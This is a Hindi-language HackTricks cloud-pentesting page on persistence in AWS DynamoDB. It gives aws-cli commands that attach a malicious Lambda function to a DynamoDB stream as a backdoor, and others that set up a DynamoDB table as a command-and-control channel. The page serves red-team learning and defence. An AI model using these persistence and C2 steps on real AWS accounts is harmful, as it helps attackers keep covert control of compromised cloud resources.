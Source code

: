 # AWS - DynamoDB Persistence

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> <strong>के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

### DynamoDB

अधिक जानकारी के लिए एक्सेस करें:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB ट्रिगर्स के साथ Lambda बैकडोर

DynamoDB ट्रिगर्स का उपयोग करते हुए, एक हमलावर एक टेबल के साथ एक दुर्भावनापूर्ण Lambda फंक्शन को जोड़कर एक **गुप्त बैकडोर** बना सकता है। Lambda फंक्शन को ट्रिगर किया जा सकता है जब कोई आइटम जोड़ा, संशोधित, या हटाया जाता है, जिससे हमलावर AWS खाते के भीतर मनमाने कोड को निष्पादित कर सकता है।

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

पर्सिस्टेंस बनाए रखने के लिए, हमलावर DynamoDB टेबल में आइटम्स को बना सकता है या मॉडिफाई कर सकता है, जिससे मलिशस Lambda फंक्शन ट्रिगर होगा। इससे हमलावर को AWS अकाउंट के भीतर कोड एक्जीक्यूट करने की अनुमति मिलती है बिना Lambda फंक्शन के सीधे इंटरैक्शन के।

### DynamoDB को C2 चैनल के रूप में

हमलावर DynamoDB टेबल का उपयोग **कमांड एंड कंट्रोल (C2) चैनल** के रूप में कर सकता है, आइटम्स बनाकर जिसमें कमांड्स होते हैं और समझौता किए गए इंस्टेंसेस या Lambda फंक्शन्स का उपयोग करके इन कमांड्स को फेच करने और एक्जीक्यूट करने के लिए।

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```

समझौता किए गए उदाहरण या Lambda फ़ंक्शन्स नियमित रूप से C2 टेबल को नए कमांड्स के लिए जांच सकते हैं, उन्हें निष्पादित कर सकते हैं, और वैकल्पिक रूप से परिणामों को वापस टेबल में रिपोर्ट कर सकते हैं। यह हमलावर को समझौता किए गए संसाधनों पर निरंतरता और नियंत्रण बनाए रखने की अनुमति देता है।

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> <strong>के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
